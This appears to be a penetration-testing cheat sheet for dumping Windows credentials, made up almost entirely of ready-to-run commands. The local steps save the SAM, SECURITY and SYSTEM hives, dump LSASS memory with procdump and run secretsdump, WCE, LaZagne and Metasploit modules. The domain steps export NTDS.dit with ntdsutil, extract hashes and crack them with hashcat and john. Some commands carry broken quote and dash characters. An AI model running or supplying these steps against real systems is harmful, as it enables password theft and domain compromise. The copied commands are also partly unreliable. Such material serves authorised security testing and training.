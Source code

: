 # Clear Text Credentials Dump on windows 

# Local Password dump

## Impacket

https://github.com/CoreSecurity/impacket

- get LSA secret keys from reg

```
reg save hklm\sam c:\temp\sam.save
reg save hklm\security c:\temp\security.save
reg save hklm\system c:\temp\system.save
```

- dump with impacket

```
impacket-secretsdump -sam /root/sam.save -security /root/security.save -system /root/Desktop/system.save Local
```

## Metasploit module

- post/windows/gather/lsa_secrets

## LSAsecrte binary

https://github.com/linuxmuster/lsaSecrets/blob/master/bin/lsaSecretRead.exe

``` lsaSecretRead.exe DefaultPassword ```

## LSASS process with processdump

```
procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```

## WCE

- https://www.ampliasecurity.com/research/windows-credentials-editor/


```
wce.exe -w
```

## Credential manager

- https://github.com/AlessandroZ/LaZagne
```
lazagne all 
```

## Nishan framework

- https://github.com/samratashok/nishang

## Group Policy Preference 

- metasploit module

``` post/windows/gather/credentials/gpp ```

# Domain Password dump

- Export NTDS with ntdsutil

```
ntdsutil “ac i ntds” “ifm” “create full c:\temp” q q
```

- install esdbexport
```
wget https://github.com/libyal/libesedb/releases/download/20170121/libesedb-experimental-20170121.tar.gz

sudo apt-get install autoconf automake autopoint libtool pkg-config

```
- Dump Tables
```
/usr/local/bin/esedbexport -m tables ntds.dit
```

- install ntdsextract

  - https://github.com/csababarta/ntdsxtract
  - need datatable, link_table, system hive

```
dsusers.py <datatable> <link_table> <output_dir> --syshive <systemhive> --passwordhashes <format options>
```
format options is john, ocl ,ophc

- crack with hashcat , john 

```
hashcat -m 1000 output/ntout --username /path/to/wordlist

john –rules=all –fork=2 NT.out

```

## Reference 
https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/
https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/
